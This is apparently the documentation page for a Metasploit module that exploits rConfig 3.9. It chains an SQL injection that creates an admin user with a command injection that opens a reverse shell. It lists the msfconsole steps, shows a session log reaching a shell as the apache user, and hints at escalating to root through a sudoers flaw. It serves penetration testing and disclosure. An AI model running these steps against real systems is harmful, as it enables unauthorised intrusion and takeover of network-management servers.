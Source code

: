 ## Vulnerable Application
This module exploits multiple vulnerabilities in rConfig version 3.9 and prior in order to execute arbitrary commands.

The module first add a temporary admin user to the application by exploiting an SQL injection (CVE-2020-10220).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `path` parameter of the ajaxArchiveFiles functionality within the rConfig web interface (CVE-2019-19509).

The module works with HTTP or HTTPS (both were tested) but the application does redirection via php code so SSL is enabled by default (and should be used). Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via SQLI. This module has been successfully tested on rConfig 3.9.2 and 3.9.4.

Tips : once you get a shell, look at the CVE-2019-19585. You will probably get root because rConfig install script add Apache user to sudoers with nopasswd ;-)

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. `use exploit/linux/http/rconfig_ajaxarchivefiles_rce`
4. `set RHOSTS target_ip`
5. `set RPORT target_port`
6. `set LHOST your_ip`
7. `set LPORT your_port`
8. `set verbose true`
9. `exploit -j`

## Scenarios
```
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > show options

Module options (exploit/linux/http/rconfig_ajaxarchivefiles_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to Rconfig
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set RHOSTS 1.1.1.1
RHOSTS => 1.1.1.1
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set LHOST 1.1.1.2
LHOST => 1.1.1.2

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > 
[+] rConfig version 3.9 detected
[+] New temporary user 6QpO8mLt created
[+] Authenticated as user 6QpO8mLt
[*] Command shell session 1 opened (1.1.1.2:4444 -> 1.1.1.1:34586) at 2020-03-10 22:26:46 +0100
[+] Command sucessfully executed
[*] User 6QpO8mLt removed successfully !

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > sessions -i 1
[*] Starting interaction with 1...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
## References
1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19509>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-10220>
3. <https://www.exploit-db.com/exploits/47982>
4. <https://www.exploit-db.com/exploits/48208>
5. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py>
6. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py>
